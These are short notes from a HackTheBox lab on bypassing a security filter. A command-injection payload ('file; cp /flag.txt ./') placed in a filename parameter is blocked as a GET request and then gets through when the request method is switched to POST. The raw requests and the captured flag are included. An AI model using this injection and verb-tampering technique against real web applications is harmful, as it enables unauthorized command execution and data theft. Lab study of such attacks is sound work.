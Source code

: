 # Bypassing Security Filters : Insecure Coding

## Identify

- Burp Suite
- Change Request Method

## LAB

http://83.136.251.235:32906/index.php

GET /index.php?filename=file HTTP/1.1

file; cp /flag.txt ./

GET /index.php?filename=file%3b+cp+/flag.txt+./ HTTP/1.1

Malicious Request Denied!

GET /index.php?filename=file%3b+cp+/flag.txt+./ HTTP/1.1

POST /index.php HTTP/1.1
Host: 83.136.251.235:32906
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.5249.62 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 0

filename=file%3b+cp+/flag.txt+./

http://83.136.251.235:32906/flag.txt
HTB{b3_v3rb_c0n51573n7}